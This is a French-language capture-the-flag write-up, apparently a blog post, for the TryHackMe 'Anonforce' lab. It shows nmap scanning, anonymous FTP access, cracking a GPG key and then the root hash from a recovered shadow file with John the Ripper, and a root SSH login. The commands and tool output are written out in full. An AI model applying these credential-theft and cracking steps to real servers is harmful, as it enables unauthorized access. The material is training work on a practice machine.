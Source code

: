```yaml
---
title: "Write-up | Anonforce"
date: 2020-07-09T00:12:57+02:00
draft: false
tags:
  - writeup
  - tryhackme
---
```


Ce write-up sera sur la room Anonforce de [Try Hack Me](https://tryhackme.com). Elle est dans la catégorie "Easy".

## Reconnaissance

Comme à l'habitude, un petit `nmap` pour commencer :
```
$ nmap -sV -sC 10.10.170.171 -p- -oN scans/ports.txt
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-08 20:59 CEST
Nmap scan report for 10.10.170.171
Host is up (0.061s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 bin
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 boot
| drwxr-xr-x   17 0        0            3700 Jul 08 13:57 dev
| drwxr-xr-x   85 0        0            4096 Aug 13  2019 etc
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 home
| lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img -> boot/initrd.
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.37.193
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:f9:48:3e:11:a1:aa:fc:b7:86:71:d0:2a:f6:24:e7 (RSA)
|   256 73:5d:de:9a:88:6e:64:7a:e1:87:ec:65:ae:11:93:e3 (ECDSA)
|_  256 56:f9:9f:24:f1:52:fc:16:b7:7b:a3:e2:4f:17:b4:ea (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
Déjà des bonnes nouvelles ! On peut se connecter au service FTP avec les creds de base (anonymous et pas de password).

## Exploitation

```
$ ftp 10.10.170.171
Connected to 10.10.170.171.
220 (vsFTPd 3.0.3)
Name (10.10.170.171:paradox): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls /home
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    4 1000     1000         4096 Aug 11  2019 melodias
226 Directory send OK.
```
Il y a un seul user dans `/home` : melodias. Le flag `user.txt` est dans dossier, mais on ne peut pas y accéder.

Il est cependant possible de le récupérer via `wget` :
```
$ wget -m ftp://anonymous:anonymous@10.10.170.171:/home/melodias/*
--2020-07-08 21:11:17--  ftp://anonymous:*password*@10.10.170.171/home/melodias/* => « 10.10.170.171/home/melodias/.listing »
Connexion à 10.10.170.171:21… connecté.
Ouverture de session en tant que anonymous… Session établie.
...
Terminé — 2020-07-08 21:11:21 —
Temps total effectif : 3,7s
Téléchargés : 8 fichiers, 5,6K en 0,2s (25,4 KB/s)
```
Il n'y a plus qu'à lire le flag `user.txt` sur sa machine !
J'essaie de récupérer le fichier `shadow` de la même manière mais impossible. Je récupère malgré tout `passwd`, mais il ne me sert à pas grand chose.

Avec un peu d'attention, on remarque la présence d'un dossier `notread` à la racine. Ce dossier contient 2 fichiers : `private.asc` et `backup.pgp`.

Avec `john`, on peut bruteforcer assez facilement un clé GPG.
```
$ sudo gpg2john private.asc > hash

File private.asc

$ sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
...
Press 'q' or Ctrl-C to abort, almost any other key for status
[edited]          (anonforce)
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
Nous voilà donc en possession de la clé ! On va pouvoir ouvrir `backup.gpg` :
```
$ gpg --import private.asc 
gpg: clef B92CD1F280AD82C2 : « anonforce <melodias@anonforce.nsa> » n'est pas modifiée
gpg: clef B92CD1F280AD82C2 : clef secrète importée

$ gpg --decrypt backup.pgp
...
      « anonforce <melodias@anonforce.nsa> »
root:$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7C[edited]m6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:18120:0:99999:7:::
...
melodias:$1$xDhc6S6G$IQHUW5ZtM[edited]EQtL1:18120:0:99999:7:::
...
```
Nous avons donc le `shadow` de la machine ! Avec le fichier `passwd` récupéré avant, il est possible de bruteforcer le password root !
```
$ sudo unshadow passwd shadow.txt > out.txt
$ sudo john --wordlist=/usr/share/wordlists/rockyou.txt out.txt
... 
Press 'q' or Ctrl-C to abort, almost any other key for status
[edited]           (root)
...
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
On trouve bien le mot de passe root. J'essaie de me connecter en SSH en tant que root, et ça marche ! Plus qu'à lire `root.txt` :
```
# cat /root/root.txt 
[edited]
```

:)

Une petite room assez facile, mais vraiment sympa !
